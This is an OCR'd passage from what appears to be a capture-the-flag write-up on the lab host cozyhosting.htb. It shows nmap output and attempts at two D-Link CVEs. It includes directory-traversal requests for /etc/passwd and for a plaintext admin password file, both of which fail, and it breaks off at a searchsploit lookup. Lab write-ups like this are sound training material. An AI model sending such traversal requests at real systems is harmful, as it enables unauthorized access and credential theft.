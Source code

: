 80/tcp open http nginx 1.18.0 (Ubuntu)

|_http-server-header: nginx/1.18.0 (Ubuntu)

| http-enum:

| //system.html: CMNC-200 IP Camera

| /Citrix//AccessPlatform/auth/clientscripts/cookies.js: Citrix

| /.nsf/../winnt/win.ini: Lotus Domino

| /uir//etc/passwd: Possible D-Link router directory traversal vulnerability (CVE-2018-10822)

|_ /uir//tmp/csman/0: Possible D-Link router plaintext password file exposure (CVE-2018-10824)

9000/tcp open cslistener?

9999/tcp open abyss?

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 278.74 seconds

We get two listed vulnerabilities so let's investigate them:

Further Recon of Exploits

First, researching CVE-2018-10822, this vulnerability allows for directory traversal in the web interface on D-Link DWR-116 through 1.06, DIR-140L through 1.02, DIR-640L through 1.02, DWR-512 through 2.02, DWR-712 through 2.02, DWR-912 through 2.02, DWR-921 through 2.02, and DWR-111 through 1.01 devices. We can read arbitrary files via a /.. or // after "GET /uir" in an HTTP request:

GET /uri//etc/passwd

Maybe it worked since it is not returning an error page? There is more to do to see the contents. Let's research the CVE-2018-10824 vulnerability. It appears the administrative password is stored in plaintext in the /tmp/csman/0 file.

curl -X GET "http://cozyhosting.htb/uri//tmp/csman/0"

No luck there, further research is needed.

I found a GitHub for a .yaml file relating to CVE-2018-10822. In the code, I noticed the reference to exploit-db exploit #45678.

Using searchsploit we find an exploit to try:

-[Wed Feb 28-17:19:34]-[table@parrot]-

-[~]$ searchsploit 45678

-------------------------------------------------------------------------------------------- ---------------------------------
